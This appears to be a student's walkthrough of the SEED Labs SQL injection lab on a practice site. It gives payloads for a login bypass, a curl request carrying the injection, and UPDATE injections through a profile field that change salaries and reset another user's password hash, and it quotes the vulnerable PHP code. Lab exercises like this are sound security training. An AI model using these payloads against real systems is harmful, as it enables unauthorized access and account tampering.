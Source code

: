 # SQL-Injection
Sql-Injection
Title	Author	Date
SQL Injection Attack Seed Lab Ubunto 16.04	Muhammad Javed	31-10-2021
Task 1
Login MYSQL:
mysql -u root -pseedubuntu
mysql> use Users;
mysql> show tables;
Use Such a SQL Query:
select * from credential where Name = 'Alice';

Screen shoot is in SQL Injection Folder

Task 2
Task 2.1
USERNAME: "Admin' #"
PASSWORD: "***" whatever the password was
It will result in a SQL Query as:
SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= 'Admin' #' and Password='***'

Then statement after # will bi regarded as comments. So we can login in as Admin.

Screen shoot is in SQL Injection Folder

Task 2.2

curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23Password=xyz'

It will return a bunch of htmlcode. When exporting outputs to file by > temp.htmland open it

Screen shoot is in SQL Injection Folder

Task 2.3
We neeed to delete such a statement to append a row to current database:

DELETE credential where name='ted';
So constructed:

USERNAME: " '1=1; DELETE credential where name='ted';#"
PASSWORD: " " (Remain Blank)
It fails and alerts with a syntax error:

Screen shoot is in SQL Injection Folder

Because in PHP's mysqli extension, which invokes mysqli::query API to handle SQL statements, it doesn't support for multiple queries within the same run. Of course, the design of this API attributes to the concern of SQL injection.

Task 3
It's hard to find the navigation buttons on this website
(www.SeedLabSQLInjection.com).

In order to edit the profile, please log in and then jump to the link address:
http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php by Hand.

Task 3.1
Log in with Alice's username and password, enter
http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php

Modify Phone Number as ', Salary=500000 and save

Task 3.2
Log in with username Boby' # and arbitrary password, open his profile edit page.

Fill in with:

Phone Number: ', Salary=1

And keep other properties unchanged. Submit the modification.

Now, you can see:

Screen shoot is in SQL Injection Folder

Log-in as Alice

Assume instead of logging in as Boby using inject method, We keep the login in as Alice, and open Alice's profile edit page.

We should change the Phone Number as

', Salary=1 where name='Boby' #
Task 3.3
Of course, the simplest approach is to log-in as Boby like Task 3.2 and change the password.

If we must do all things and keep log-in with Alice's own account. We might face such an issue:

According to code below in unsafe_edit_backend.php, if Password is to be updated, the session's pwd will be updated first, which makes our user authentication invalid immediately and the modification dropped. So we cannot modify the password field directly using Alice's authentication.

$conn = getDB();
// Don't do this, this is not safe against SQL injection attack
$sql="";
if($input_pwd!=''){
// In case password field is not empty.
$hashed_ = sha1($input_pwd);
//Update the password stored in the session.
$_SESSION['pwd']=$hashed_pwd;
$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where ID=$id;";
}else{
// if passowrd field is empty.
$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',PhoneNumber='$input_phonenumber' where ID=$id;";
}
$conn->query($sql);
$conn->close();
header("Location: unsafe_home.php");
exit();
We should do all things in Phone Number field.

Assume we want to change Boby's password as tedwashere. First, we should get SHA1 value of our new password via some online tool as

1b3263246794fe4094be7ae99e21b34454d9676f
Then construct Phone Number as:

', password='1b3263246794fe4094be7ae99e21b34454d9676f' where name='Boby' #
and save. Now, the change works. You can log in with username Boby and password tedwashere.

Verify:

Screen shoot is in SQL Injection Folder
